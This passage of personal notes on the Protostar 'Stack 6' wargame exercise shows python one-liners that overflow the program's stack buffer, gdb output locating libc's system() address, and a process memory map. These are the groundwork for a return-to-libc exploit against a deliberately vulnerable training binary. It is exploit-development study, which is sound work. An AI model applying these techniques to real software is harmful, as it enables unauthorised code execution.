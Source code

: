 Some research
1. Set breakpoint at 0x80483d9 to find out how the input affected the stack

Some interesting stuff
1. Did you know that most linux programms don't allow execution from the stack?
  - Check this out for more info: stackoverflow.com/questions/36511214/buffer-overflow-eip-and-jump-correctly-set-but-segfault
  - To execute from the stack check this out: https://stackoverflow.com/questions/6867125/how-do-i-get-linux-to-execute-data-on-the-stack

## Stack 6
With Reference to https://medium.com/bugbountywriteup/protostar-stack6-24680c38a3a8

```
user@protostar:/opt/protostar/bin$ python -c "print('A'*4*18)" | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@protostar:/opt/protostar/bin$ python -c "print('A'*4*19)" | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

```
user@protostar:/opt/protostar/bin$ gdb ./stack6
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) p system
No symbol "system" in current context.
(gdb) run
Starting program: /opt/protostar/bin/stack6
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAec▒@▒▒▒▒▒▒ ▒

Program exited with code 0142.
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb)
```
```

(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 3804
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
```
